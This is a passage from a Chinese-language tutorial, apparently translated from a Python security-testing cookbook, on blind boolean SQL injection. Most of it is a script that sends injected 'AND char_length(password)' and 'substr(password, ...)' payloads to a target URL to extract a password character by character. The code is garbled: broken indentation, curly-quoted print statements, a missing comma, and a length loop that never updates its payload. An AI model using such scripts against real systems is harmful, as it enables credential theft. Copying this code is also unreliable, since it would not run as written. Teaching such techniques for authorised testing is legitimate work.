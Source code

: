 # 利用布尔 SQLi

有时你只能从页面上得到一个是或否的答案。当你意识到这就是 SQL 等价于说“我爱你”的时候，这是令人心碎的。所有的 SQLi 都可以分解成是或否的问题，取决于你的耐心。

我们将创建一个脚本，它接受一个`yes`值和一个 URL，并根据预定义的攻击字符串返回结果。我提供了一个示例攻击字符串，但这将根据您正在测试的系统而变化。

## 如何做...

以下脚本是您的脚本应该的样子：

```py
import requests
import sys

yes = sys.argv[1]

i = 1
asciivalue = 1

answer = []
print “Kicking off the attempt”

payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}

while True:
  req = requests.post('<target url>' data=payload)
  lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
  else:
    i = i+1

for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
      req = requests.post('<target url>', data=payload)
      if yes in req.text:
    answer.append(chr(asciivalue))
break
  else:
      asciivalue = asciivalue + 1
      pass
asciivalue = 0
print “Recovered String: “+ ''.join(answer)
```

## 它是如何工作的...

首先，用户必须识别仅在 SQLi 成功时发生的字符串。或者，可以修改脚本以响应 SQLi 失败的证据缺失。我们将此字符串作为`sys.argv`变量提供。我们还创建了我们将在此脚本中使用的两个迭代器，并将它们设置为`1`，因为 MySQL 从`1`开始计数，而不是像失败的系统那样从`0`开始。我们还为我们未来的答案创建了一个空列表，并告知用户脚本正在启动：

